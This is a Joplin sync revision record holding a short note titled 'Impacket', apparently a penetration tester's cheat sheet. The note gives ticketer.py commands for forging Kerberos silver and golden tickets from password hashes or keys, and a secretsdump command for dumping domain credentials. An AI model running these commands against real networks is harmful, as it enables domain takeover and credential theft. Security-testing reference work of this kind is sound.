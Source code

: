 id: e8f4bcdd97024fd983aa56bfcd305387
parent_id: 
item_type: 1
item_id: eb745e20b6374133a2d2804218b9618b
item_updated_time: 1643082034812
title_diff: "[{\"diffs\":[[1,\"Impacket\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"# Generate Silver Tickets with Impacket:\\\n- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>\\\n- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>\\\n\\\n# Generate Golden Tickets:\\\n- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>\\\n- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>\\\n\\\n# Credential Access with Secretsdump\\\n\\\n- impacket-secretsdump username@target-ip -dc-ip target-ip\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":615}]"
metadata_diff: {"new":{"id":"eb745e20b6374133a2d2804218b9618b","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1586486888490,"user_updated_time":1586486893632,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.817Z
created_time: 2022-02-28T02:44:25.817Z
type_: 13